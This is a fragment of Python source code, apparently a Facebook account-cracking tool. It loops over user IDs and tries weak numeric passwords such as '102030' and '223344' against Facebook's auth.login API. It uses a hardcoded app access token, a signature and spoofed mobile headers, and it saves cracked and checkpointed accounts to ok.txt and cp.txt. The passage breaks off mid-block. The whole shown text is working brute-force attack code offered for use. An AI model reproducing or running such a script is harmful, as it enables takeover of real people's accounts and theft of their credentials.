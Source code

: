 			pass1 = "102030"

			api = 'https://b-api.facebook.com/method/auth.login'

			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

			data = requests.get(api, params=params, headers=headers_)

			if "access_token" in data.text and "EAAA" in data.text:

				print(" \033[1;32m[loferjanan💖-OK] "+uid+" | "+pass1+"\033[0;97m")

				ok = open("ok.txt", "a")

				ok.write(uid+"|"+pass1+"\n")

				ok.close()

				oks.append(uid+pass1)

			else:

				if "www.facebook.com" in data.json()['error_msg']:

					print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass1+"\033[0;97m")

					cp = open("cp.txt", "a")

					cp.write(uid+"|"+pass1+"\n")

					cp.close()

					cps.append(uid+pass1)

				else:

					pass2 = "223344"

					api = 'https://b-api.facebook.com/method/auth.login'

					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

					data = requests.get(api, params=params, headers=headers_)

					if "access_token" in data.text and "EAAA" in data.text:

						print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass2+"\033[0;97m")

						ok = open("ok.txt", "a")
